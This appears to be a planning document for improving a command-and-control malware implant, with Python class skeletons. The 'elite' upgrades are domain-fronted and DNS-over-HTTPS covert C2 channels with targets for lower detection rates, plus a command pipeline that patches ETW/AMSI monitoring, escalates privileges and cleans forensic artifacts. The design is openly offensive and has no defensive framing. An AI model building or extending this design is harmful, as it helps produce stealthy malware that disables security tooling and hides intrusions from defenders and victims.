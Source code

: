 
## PHASE 1: ELITE FOUNDATION (Week 2-3 - ENABLES EVERYTHING ELSE)

### 1.1 Elite Connection Architecture
**Priority:** CRITICAL  
**Current Issues:** Direct TCP, easily blocked, memory leaks  
**Elite Implementation:** Domain fronting + DNS over HTTPS

```python
# File: PyLib/elite_connection.py
# Implement from ELITE_FUNCTIONAL_IMPROVEMENTS.md Section 1.1 & 1.2

class EliteC2Connection:
    def __init__(self):
        self.primary = DomainFrontedC2()      # Hidden behind CDN
        self.backup = DoHCovertChannel()      # DNS over HTTPS
        self.fallback = DirectConnection()    # Original method
    
    def connect(self):
        # Try methods in order of stealth
        for method in [self.primary, self.backup, self.fallback]:
            if method.establish():
                return method
```

**Success Metrics:**
- Connection detection: <10% (from 70%)
- Connection stability: >99% (from 70%)

### 1.2 Elite Command Execution Pipeline
**Priority:** CRITICAL  
**Current Issues:** Commands logged, no privilege checking, no cleanup  
**Elite Implementation:**

```python
# File: Application/elite_executor.py
# Every command must go through this pipeline

class EliteCommandExecutor:
    def execute(self, command, *args):
        # Step 1: Patch security monitoring
        with SecurityBypass():  # Context manager for ETW/AMSI patching
            
            # Step 2: Check privileges
            if not self.has_required_privileges(command):
                self.escalate_privileges()
            
            # Step 3: Execute using elite method (no shell commands)
            result = self.elite_commands[command](*args)
            
            # Step 4: Clean artifacts
            self.cleanup_forensics()
            
        return result
```
